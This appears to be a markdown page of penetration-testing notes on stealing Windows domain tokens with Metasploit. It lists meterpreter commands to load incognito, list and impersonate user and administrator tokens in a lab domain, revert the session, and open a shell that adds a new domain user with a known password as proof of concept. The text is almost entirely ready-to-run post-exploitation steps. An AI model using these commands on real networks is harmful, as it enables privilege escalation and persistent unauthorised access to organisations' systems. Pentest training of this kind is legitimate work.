 ## **Dumping Tokens Using Metasploit**

First of all make sure you have a `meterpreter` shell on our target system

```powershell
meterpreter > load incognito
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\fcastle
```


#### **Example**


![b5tFh1b.png](https://i.imgur.com/b5tFh1b.png)
![](https://i.imgur.com/b5tFh1b.png)


#### **Revert Msfconsole Shell**

This will revert the `meterpreter` session to its original state

```powershell
meterpreter > revself
```


**Since we are able to dump user fcastle token and impersonate it, let do the same for the local admin, first of all switch user from fcastle to the local admin.**



![](https://i.imgur.com/lPsa2e1.png)

```powershell
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\administrator
```



#### **Example**


![](https://i.imgur.com/hc1UK5y.png)



## **Proof Of Concept**

We can add a proof of concept to our report by creating a new user, called **hawkeye** with password as **Password1@**.

```powershell
meterpreter > shell

# adding our user hawkeye
C:\Windows\system32>net user /add hawkeye Password1@ /domain
```

#### **Example**


![](https://i.imgur.com/oWzcnmn.png)

